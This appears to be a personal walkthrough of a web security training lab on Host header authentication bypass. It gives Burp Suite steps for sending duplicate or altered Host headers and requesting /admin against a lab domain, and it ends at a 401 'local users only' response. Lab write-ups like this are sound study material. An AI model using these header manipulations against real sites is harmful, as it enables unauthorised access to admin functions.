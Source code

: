 ```bash

X-Cache: hit

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220605221119.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220605221537.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220605221454.png)

### Host header authentication bypass
```bash

# This lab makes an assumption about the privilege level of the user based on the HTTP Host header.

# To solve the lab, access the admin panel and delete Carlos's account. 

Refresh the page
Go to: Target -> Right-click current_website.com -> Engagement tools -> Discover content -> Session is not running
Go to: HTTP history
Find:

GET / HTTP/1.1

Add an additional Host: header below the current Host: header
Like so:

Host: 0a2b00ba04a02f02c0f60e8e00b80048.web-security-academy.net
Host: test.com

Fail

Change: 

Host: 0a2b00ba04a02f02c0f60e8e00b80048.web-security-academy.net

To

Host: test.com

Success

Go to: Target and acknowledge that /admin was enumerated

Go to: Repeater

Change:

GET / HTTP/1.1

To

GET /admin HTTP/1.1

Response:

HTTP/1.1 401 Unauthorized

"Admin interface only available to local users"

```